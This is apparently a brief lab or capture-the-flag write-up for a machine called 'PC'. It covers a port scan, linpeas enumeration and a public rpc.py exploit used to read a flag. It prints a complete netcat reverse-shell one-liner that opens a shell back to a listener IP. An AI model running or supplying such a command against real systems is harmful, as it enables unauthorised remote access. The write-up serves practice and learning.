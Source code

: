 # PC

So i start by scanning the target and see an interesting service on port 8000:

<figure><img src="../../../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

I input:

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.245 7878 >/tmp/f
```

and get a shell:

<figure><img src="../../../.gitbook/assets/image (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Not very useful but let's see so i run a linpeas:

<figure><img src="../../../.gitbook/assets/image (2) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ok so i look up rpc.py and find some exploits:

{% embed url="https://www.exploit-db.com/exploits/50983?source=post_page-----7619983c7d63---------------------------------------" %}

so i wget the script on the target machine and run it with the command:

<figure><img src="../../../.gitbook/assets/image (3) (1) (1).png" alt=""><figcaption></figcaption></figure>

and after running it we can see flag.txt in our tmp file, could've also gotten a reverse shell but got lazy
